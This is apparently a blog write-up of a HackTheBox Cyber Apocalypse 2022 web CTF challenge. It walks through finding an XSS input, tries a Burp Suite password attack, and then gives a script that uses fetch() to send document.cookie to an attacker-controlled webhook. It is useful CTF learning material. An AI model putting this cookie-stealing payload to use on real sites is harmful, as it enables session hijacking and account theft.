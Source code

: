 ```yaml
---
title: "Cyber Apocalypse 2022 - Kryptos Support"
date: 2022-05-15T22:15:58+09:00
description: "A Web Challenge from HackTheBox's Cyber Apocalypse 2022"
tags: [XSS,IDOR,WEB,Burpsuite,CTF,CyberApocalypse 2022]
categories: [CTF,Ethical Hacking,Pentesting]
comments: false
draft: True
---
```

I'll have to admit. This being the first challenge in the web category for the Cyber Apocalypse CTF from HackTheBox definitely set the tone of what to expect. This challenge was an XSS and IDOR combination. Do your directory enumeration in the background. Let's see how it broke down.

### XSS

When navigating to the website you will notice this flash-like website bringing me back to memories of the early 2000's. 

{{<figure src="/images/Posts/016/Kryptos.jpg">}}

There is an input field!!! What can we do? Well trying the default XSS to do a popup ```<script>"XSS"</script>``` returned nothing. You can notice there is a backend button on the top left. Once you navigate there, you will be greeted with a login page. 

{{<figure src="/images/Posts/016/login.jpg">}}

Alright, if there is login then what are you options? You can try running Burpsuite to run a password attack with a password list. Yes, Yes you can. I don't know how happy HackTheBox would be with running the password attack, but after about 30 minutes of using the community edition of Burpsuite with no results you will look for other options. Did you know you can steal cookies using XSS? Well come to find out it is considerably faster than Burpsuite community edition. I have never done this before, so off to the best hacking tool ever invented...Google. I found two great walkthroughs from [Infinite Logins](https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/) and from [Portswigger](https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/) to get this going. 

Following the Portswigger community solutions video you can notice the XSS script we will be using.

```javascript
<script>
fetch('https://your_web_hook_url/', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

The fetch function of the walkthrough on Portswiggers community solution stumped me. They use Burpsuite's collaborator tool which is locked behind Burpsuite Pro. That is where Infinite Logins' walkthrough saves the day. You can set up a [webhook](https://webhook.link). This will give us the cookie we will need. 
